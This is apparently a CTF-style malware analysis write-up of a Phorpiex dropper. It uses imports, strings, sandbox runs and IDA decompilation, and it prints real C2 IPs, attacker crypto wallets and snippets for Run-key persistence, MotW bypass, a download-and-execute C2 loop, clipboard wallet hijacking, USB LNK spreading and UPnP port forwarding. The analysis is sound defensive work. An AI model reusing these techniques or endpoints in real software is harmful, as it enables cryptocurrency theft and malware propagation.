




Description:  
After a security incident, unusual activity on Samira’s workstation led to the discovery of a suspicious binary operating stealthily in the background. The executable evades standard detection while maintaining persistence and network communication. Your mission is to reverse the binary and extract the attacker’s TTPs for the endpoint security team.

### <span style="color:lightblue">TL;DR</span>


### <span style="color:red">initial analysis</span>
```console
$ file *             
optimize.exe: PE32 executable for MS Windows 5.00 (GUI), Intel i386, 3 sections
```

#### libraries

\- `WS2_32.dll` + `WININET.dll` potentially used to communication with the C2 server.   
\- `urlmon.dll` indicates file downloading capabilities, likely via `URLDownloadToFile`, suggesting the sample as a Downloader to retrieve and execute secondary payload.


#### imports
```
socket, bind, listen, accept, connect       WS2_32.dll
send, recv, sendto, recvfrom               WS2_32.dll
WSAStartup, WSASocketA, WSASend, WSARecv   WS2_32.dll
InternetOpenA, InternetConnectA            WININET.dll
HttpOpenRequestA, HttpSendRequestA         WININET.dll
URLDownloadToFileW                         urlmon.dll
```


```
RegOpenKeyExW      ADVAPI32.dll
RegSetValueExW     ADVAPI32.dll
RegQueryValueExW   ADVAPI32.dll
RegCloseKey        ADVAPI32.dll
```
\- interaction with Registry, potentially for persistance or modifies system security settings

```
SetClipboardViewer       USER32.dll
ChangeClipboardChain     USER32.dll
OpenClipboard            USER32.dll
GetClipboardData         USER32.dll
SetClipboardData         USER32.dll
IsClipboardFormatAvailable USER32.dll
```
\- сlipboard hijacking capability

```
RegisterRawInputDevices  USER32.dll
GetMessageA             USER32.dll
```
\- potentially keylogging via `RegisterRawInputDevices`

```
CreateFileW, WriteFile              KERNEL32.dll
DeleteFileW, CopyFileW, MoveFileExW KERNEL32.dll
FindFirstFileW, FindNextFileW       KERNEL32.dll
CreateDirectoryW, RemoveDirectoryW  KERNEL32.dll
SetFileAttributesW                  KERNEL32.dll
MapViewOfFile, CreateFileMappingW   KERNEL32.dll
```
\- file system operation  
\- `SetFileAttributesW` can be used for hiding files

```
CreateProcessW     KERNEL32.dll
CreateThread       KERNEL32.dll
ShellExecuteW      SHELL32.dll
```
\- payload execution via `CreateProcessW` or `ShellExecuteW`  
\- combined with download functions -> **dropper/loader** behavior

```
CryptAcquireContextW   ADVAPI32.dll
CryptGenRandom         ADVAPI32.dll
CryptReleaseContext    ADVAPI32.dll
rand, srand            msvcrt.dll
```
\- `CryptGenRandom` - cryptographically secure random generation, potentially used for encryption of C2 traffic  
\- `rand/srand` may indicate custom encryption algorithm


```
CreateMutexA          KERNEL32.dll
NtQueryVirtualMemory  ntdll.dll
Sleep, GetTickCount   KERNEL32.dll
```
\- `CreateMutexA` - ensure single instance  
\- `NtQueryVirtualMemory` - detect debuggers/sandboxes via memory inspection  
\- `Sleep` + `GetTickCount` - potential timing-based sandbox evasion  


#### strings
*Hardcoded C2 Servers:*
```
http://185.156.72.39/
http://45.141.233.6/
www.update.microsoft.com (likely decoy/masquerading)
239.255.255.250
```

*User-Agent String:*
```
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 
(KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
```
\- Recent Chrome UA (v128) for blending with legitimate traffic  
\- HTTP-based C2 communication confirmed  

*Registry Run Keys:*
```
Software\Microsoft\Windows\CurrentVersion\Run\
Software\Microsoft\Windows\CurrentVersion\Policies\Explorer
```

*Zone.Identifier Bypass:*
```
%s:Zone.Identifier
```

*Dropped Files:*
```
%temp%\syscrondvr.exe
%temp%\tbtnds.dat
%temp%\tbtcmds.dat
DriveSecManager.exe (USB)
```

*Dropper Command:*
```
%s.lnk
/c start %s & start %s\DriveSecManager.exe
```

*Cryptocurrency Wallet Addresses Embedded:*
```
Bitcoin:     bc1q9tgkga69k094n5v0pn7ewmpp2kn66sh9hu65gq
bitcoincash: qph44jx8r9k5xeq5cuf958krv3ewrnp5vc6hhdjd3r
ronin:       a77fa3ea6e09a5f3fbfcb2a42fe21b5cf0ecdd1a
Cosmos:      cosmos125f3mw4xd9htpsq4zj5w5ezm5gags37yj6q8sr
Terra:       terra1mw3dhwak2qe46drv4g7lvgwn79fzm8nr0htdq5
Zilliqa:     zil19delrukejtr306u0s7ludxrwk434jcl6ghpng3
... (40+ additional altcoin addresses)
```
\- i think sample monitors clipboard for crypto addresses via `SetClipboardViewer` chain and replaces victim's copied address with attacker's corresponding wallet

#### <span style="color:red">running in Sandbox</span>
**optimize.exe**  
`optimize.exe` acts as a dropper, it downloads a `syscrondvr.exe`

it set a registry key in `HKEY_CURRENT_USER\SOFTWARE\Microsoft \Windows\CurrentVersion\Run` to sturtup `syscrondvr.exe`


**syscrondvr.exe**
`syscrondvr.exe` identified as a **PHORPIEX** by Yara and Suricata. it uses a `tbtnds.dat` file, likely to store a configuration data.


And it makes a lot of interesting connections to `185.156.72.39:80` and some other IPs with 4500 port




### reversing with ida
#### persistence by \Run\ registry key
malware copies itself to `%windir%`, `%USERPROFILE%` and `%temp` and renames to `syscrondvr.exe`. Adds registry key to `HKLM\Software\Microsoft\Windows\CurrentVersion\Run\` and `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\`. Changes the attribute of the file and hides it.
```c
int start()
{
  GetModuleFileNameW(0, &ExistingFileName, 0x105u);// return a filepath
  String1 = PathFindFileNameW(&ExistingFileName);// return filename from filepath
// ...[snip]...   
// 
  ExpandEnvironmentStringsW(L"%windir%", mw_windir, 0x104u);
      wsprintfW(NewFileName, L"%s\\%s", mw_windir, L"syscrondvr.exe");
      if ( CopyFileW(&ExistingFileName, NewFileName, 0) )
      {
        SetFileAttributesW(NewFileName, 3u);      // hidden
        v13 = RegOpenKeyExW(
                HKEY_LOCAL_MACHINE,
                L"Software\\Microsoft\\Windows\\CurrentVersion\\Run\\",
                0,
                0x20006u,
                &phkResult);
        if ( !v13 )
        {
          v0 = wcslen(NewFileName);
          if ( !RegSetValueExW(phkResult, aWindowsSetting, 0, 1u, NewFileName, 2 * v0 + 2) )
//...[snip]...
      v13 = RegOpenKeyExW(
              HKEY_CURRENT_USER,
              L"Software\\Microsoft\\Windows\\CurrentVersion\\Run\\",
              0,
              0x20006u,
              &phkResult);
      if ( !v13 )
      {
        v1 = wcslen(String);
        if ( !RegSetValueExW(phkResult, aWindowsSetting, 0, 1u, String, 2 * v1 + 2) )
//...[snip]...
```
#### bypass MotW
Bypasses Mark of the Web by creating a thread with `:Zone.Identifier` and deleting it.
```c
  wsprintfW(FileName, L"%s:Zone.Identifier", &ExistingFileName);
  DeleteFileW(FileName);
```

#### configure commands and C2 servers
Configure paths:  
\- `tbtnds.dat`: "Trik Bot Nodes" — list of C2 servers
\- `tbtcmds.dat`: "Commands" — retrieve commands from C2
```c
    wsprintfW(&word_4161D0, L"%s\\tbtnds.dat", mw_userprofile);
    wsprintfW(&::FileName, L"%s\\tbtcmds.dat", mw_userprofile);
```

#### main C2 logic
Creates a thread `CreateThread(0, 0, mw_C2_main_loop, 0, 0, 0);`. That thread functional as a C2 loop.
It iterates through 2 hardcoded IP addresses `(http://185.156.72.39/ and http://45.141.233.6/)` combined with 5 distinct URI suffixes ("1" to "5"), generating a total of 10 potential endpoints per cycle (e.g., http://185.156.72.39/1).  

The function triggers `mw_download_and_execute()` to retrieve (`InternetOpenUrlW + InternetReadFile + WriteFile` or `URLDownloadToFileW`) and run the executable(`ShellExecute`). The loop has a `Sleep(0xDBBA0u)` call, enforcing a 15-minute beacon interval.
```c
void __stdcall __noreturn mw_C2_main_loop(PVOID Parameter)
{
  memset(v5, 0, sizeof(v5));
  v4[0] = "1";
  v4[1] = "2";
  v4[2] = "3";
  v4[3] = "4";
  v4[4] = "5";
  while ( 1 )
  {
    for ( i = 0; i < 2; ++i )
    {
      Sleep(0x3E8u);
      for ( j = 0; j < 5; ++j )
      {
        Sleep(0x3E8u);
        wsprintfA(szUrlName, "%s%s", mw_http_ip[i], v4[j]);
        DeleteUrlCacheEntry(szUrlName);
        if ( mw_payload_checks(szUrlName, &v5[j]) == 1 )
          mw_download_and_execute(szUrlName, 0);
      }
    }
    Sleep(0xDBBA0u);
  }
}
```

#### Replace a crypt
Creates a Thread `CreateThread(0, 0, mw_main_replace, 0, 0, 0);`, which creates a callback function `mw_WindProc_callback_`. 
```c
v4.cbSize = 48;
  v4.lpfnWndProc = mw_WindProc_callback_;
  v4.hInstance = GetModuleHandleW(0);
  v4.lpszClassName = v3;
```

This function checks if clipboard data was updated (`WM_DRAWCLIPBOARD`), then uses `IsClipboardFormatAvailable` to check a format of clipboard data, `GetClipboardData` to get a descriptor of data, `GlobalLock` to get a pointer to clipboard data, then does some conversion of this data to the necessary format and transfers data to `mw_repcale_crypt` function
```c
switch ( Msg )
    {
      case 0x308u:       // 0x308 -> WM_DRAWCLIPBOARD
        uFormat = 0;
        if ( IsClipboardFormatAvailable(0xDu) ) // unicode text
        {
          uFormat = 13;
        }
        else if ( IsClipboardFormatAvailable(1u) )// asci
        {
          uFormat = 1;
        }
        else if ( IsClipboardFormatAvailable(7u) )// CF_OEMTEXT
        {
          uFormat = 7;
        }
        if ( uFormat && OpenClipboard(0) )
        {
          hMem = GetClipboardData(uFormat);
          mw_ptr_to_pdata = GlobalLock(hMem);
          lpString = 0;
          if ( uFormat == 1 )
          {
            lpString = mw_convert_to_wide(mw_ptr_to_pdata, 0, 0);
          }
          else if ( uFormat == 7 )
          {
            lpString = mw_convert1(mw_ptr_to_pdata, 0, 0);
          }
          else
          {
            lpString = mw_convert2(mw_ptr_to_pdata, 0);
          }
            mw_repcale_crypt(lpString);
// ...[snip]...
```

`mw_repcale_crypt` function finds if in the user's clipboard data there is a crypto wallet, and replaces it with its own crypto wallet.
```c
if ( StrStrW(lpString, L"bitcoincash:") )
// ...[snip]...
if ( *lpString == 84 )
    v5 = "TW3wpRJmZgC5WifuY468JBUCF3TEkzBT5H";
// ...[snip]...
if ( lpString[1] == 105 && lpString[2] == 108 )
      v5 = "zil19delrukejtr306u0s7ludxrwk434jcl6ghpng3";
    else
      v5 = "zncBgwqwqquPLHrM4ozrtr3LPyFuNVemy4v";
// ...[snip]...
mw_prt_to_replaced_pdata = GlobalLock(hMem);
      if ( mw_prt_to_replaced_pdata )
      {
        memcpy(mw_prt_to_replaced_pdata, v5, v4 + 1);
        GlobalUnlock(hMem);
        if ( OpenClipboard(0) )
        {
          EmptyClipboard();
          SetClipboardData(1u, hMem);
```


#### spreading via USB and network drives
creates a separate thread `CreateThread(0, 0, sub_406E00, 0, 0, 0);` for monitoring connected drives and automatic spreading via USB drives and network shares.

The function continuously checks system logical drives (`mw_checks_logical_drives()`), filtering USB and network devices. For each detected drive, it collects information about size and volume name, then calls `sub_4068E0()` for infection:
```c
void __stdcall __noreturn sub_406E00(PVOID Parameter)
{
  GetModuleFileNameW(0, &Filename, 0x104u);
  mw_current_file_size = sub_40EA80(&Filename);
  while ( 1 )
  {
    v9 = mw_checks_logical_drives();
    for ( i = 2; i <= 25; ++i )
    {
      v7 = sub_4064E0(v9, i, RootPathName);
      if ( v7 == 2 || v7 == 4 )                 // if USB or network drive
      {
        GetVolumeInformationW(RootPathName, VolumeNameBuffer, 0x105u, 0, 0, &FileSystemFlags, 0, 0);
        GetDiskFreeSpaceExW(RootPathName, 0, &TotalNumberOfBytes, 0);
        wsprintfW(v5, L" (%dGB)", TotalNumberOfBytes.QuadPart / 0x40000000);
        if ( !VolumeNameBuffer[0] )
          wsprintfW(VolumeNameBuffer, L"Unnamed volume");
        wsprintfW(v4, L"%s%s", VolumeNameBuffer, v5);
        sub_4068E0(RootPathName, v4, FileSystemFlags, v7 == 4);
```

#### usb infect
1. **Creating hidden structure:**  
\- Creates a hidden directory with the volume name  
\- Copies malware as `DriveSecManager.exe` with HIDDEN attribute  
\- Creates an LNK shortcut file with folder icon  

2. **Hiding legitimate files:**  
\- Deletes some files (`.bat`, `.vbs`, `.cmd`, `.ps1`, etc.)  
\- Moves all user files to the hidden directory  
\- Leaves only the malicious LNK file visible  
```c
if ( !PathFileExistsW(pszPath) )
  {
    if ( !PathFileExistsW(PathName) && CreateDirectoryW(PathName, 0) )
      SetFileAttributesW(PathName, 2u);         // FILE_ATTRIBUTE_HIDDEN
    if ( PathFileExistsW(PathName) && CopyFileW(&Filename, pszPath, 0) )
      SetFileAttributesW(pszPath, 2u);
  }
  if ( !PathFileExistsW(FileName) )
  {
    if ( a4 )
      sub_406680(FileName, L"shell32.dll", 9); // network drive
    else
      sub_406680(FileName, L"shell32.dll", 8); // USB drive
    SetFileAttributesW(FileName, 1u);           // FILE_ATTRIBUTE_READONLY
  }
```


#### infected .LNK

Uses COM interface `IShellLink` to create a `.lnk` file that:  
\- Looks like a regular folder (`shell32.dll` icon)  
\- Launches `cmd.exe` with command to open the hidden folder **AND** run `DriveSecManager.exe`  
\- Victim sees their files (because the hidden directory opens), but malware runs simultaneously  
```c
void __cdecl sub_406680(int a1, int a2, int a3)
{
  v6 = CoInitialize(0);
  if ( v6 >= 0 )
  {
    v6 = CoCreateInstance(&rclsid, 0, 1u, &riid, &ppv); // creates IShellLink object
    if ( v6 >= 0 && ppv )
    {
      // command: open hidden folder + launch malware
      wsprintfW(v3, L"/c start %s & start %s\\DriveSecManager.exe", &unk_41430C, &unk_41430C);
// ...[snip]...
```


#### NAT traversal via UPnP

Malware implements NAT traversal to expose infected machine directly to the internet by configuring port forwarding on the router via UPnP protocol.

**Finding gateway via SSDP**

Sends SSDP M-SEARCH multicast request to discover UPnP-enabled routers on the local network. Broadcasts M-SEARCH to `239.255.255.250:1900` to discover `InternetGatewayDevice`, then collects all UPnP gateway URLs from SSDP responses  
```c
int __cdecl mw_gateway_find_by_SSDP(_DWORD *a1)
{
  v17 = WS2_32_23(2, 2, 17);           
  if ( v17 != -1 )
  {
    v4[1] = WS2_32_9(1900);                     // port 1900 (SSDP)
    v5 = WS2_32_11("239.255.255.250");          // SSDP multicast address
    WS2_32_21(v17, 0xFFFF, 32, &v14, 1);        // SO_BROADCAST
    lpString = "M-SEARCH * HTTP/1.1\r\n"
               "ST:urn:schemas-upnp-org:device:InternetGatewayDevice:1\r\n"
               "MX: 3\r\n"
               "Man:\"ssdp:discover\"\r\n"
               "HOST: 239.255.255.250:1900\r\n"
               "\r\n";
// ...[snip]...
```
**Port forwarding setup (`mw_nat_local`):**
Determines local IP using `getsockname()` by establishing connection to external host `"www.update.microsoft.com"`
Then configures router to forward external traffic for TCP/UDP port `40500` to infected machine:
```c
unsigned int mw_nat_local()
{
  CoInitializeEx(0, 2u);
  v3 = 0;
  result = mw_gateway_find_by_SSDP(&v3);
  v4 = result;
  if ( result )
  {
    for ( i = 0; i < v4; ++i )
    {
      lpszUrl = sub_40DC90(*(v3 + 4 * i));      // get UPnP control URL
      if ( lpszUrl )
      {
        v1 = mw_local_ip();
        sub_40E780(lpszUrl, "TCP", 0x9E34u, v1); // forward TCP port 40500
        sub_40E780(lpszUrl, "UDP", 0x9E34u, v1); // forward UDP port 40500
// ...[snip]...
```
